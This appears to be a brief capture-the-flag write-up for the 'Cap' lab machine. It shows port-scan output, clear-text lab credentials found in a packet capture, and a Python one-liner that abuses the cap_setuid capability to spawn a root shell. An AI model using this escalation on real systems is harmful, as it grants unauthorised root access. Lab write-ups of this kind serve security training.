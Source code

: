 # Cap Write-Up

Easy

Tags: 
`Python`
`Easy`
`External`
`Penetration Tester Level 1`
`IDOR Exploitation`
`Packet Capture Analysis`
`Clear Text Credentials`
`Web Site Analysis`
`File System Configuration`
`SUID Exploitation`

## Intro

1. Use wireshark to capture packet
2. linpeas.sh to escalate privilege

## Enumeration

### Port scanning

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```

## Exploit

### Use `WireShark`

username: `nathan`
password: `Buck3tH4TF0RM3`

Connect ssh

## Privilege Escalation

Use `linpeas.sh`

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Search [/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip](https://useful.adindrabkin.com/hacker-mode/linux-privilege-escalation-checklist)

```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```